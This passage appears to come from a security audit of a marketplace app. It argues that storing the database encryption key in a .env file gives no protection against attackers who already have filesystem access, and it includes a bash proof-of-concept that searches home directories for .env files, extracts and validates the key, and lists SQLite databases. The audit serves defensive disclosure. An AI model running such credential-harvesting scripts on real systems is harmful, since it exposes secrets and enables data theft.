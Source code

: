 **Reality:**
- State actor server seizure → filesystem access guaranteed
- RCE exploit → filesystem access trivial
- Insider threat → filesystem access legitimate

**Conclusion:** Current approach is **security theatre** - provides illusion of security without actual protection against stated threat model.

---

## Exploitation Proof of Concept (POC)

### POC 1: Local Key Extraction

**Target:** Demonstrate ease of key extraction from `.env`

```bash
#!/bin/bash
# POC: Extract DB encryption key from .env file
# Requires: Filesystem access (RCE, root, or admin SSH)

echo "[*] Searching for .env files..."
find /home -name ".env" -type f 2>/dev/null | while read env_file; do
    echo "[+] Found: $env_file"

    # Extract DB encryption key
    key=$(grep "^DB_ENCRYPTION_KEY=" "$env_file" | cut -d'=' -f2)

    if [ -n "$key" ]; then
        echo "[!] CRITICAL: DB encryption key exposed!"
        echo "[!] Key: $key"
        echo "[!] Length: ${#key} chars"

        # Validate key format (64 hex chars = 32 bytes)
        if [[ $key =~ ^[0-9a-fA-F]{64}$ ]]; then
            echo "[!] Key format VALID - can decrypt database"
        else
            echo "[!] Key format INVALID - may not work"
        fi
    fi
done

echo "[*] Searching for SQLite databases..."
find /home -name "*.db" -type f 2>/dev/null
```

**Expected Output:**
```
[*] Searching for .env files...
[+] Found: /home/marketplace/.env
[!] CRITICAL: DB encryption key exposed!
[!] Key: 3f7a8b2c9d1e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a
[!] Length: 64 chars
[!] Key format VALID - can decrypt database
[*] Searching for SQLite databases...
/home/marketplace/marketplace.db
```

---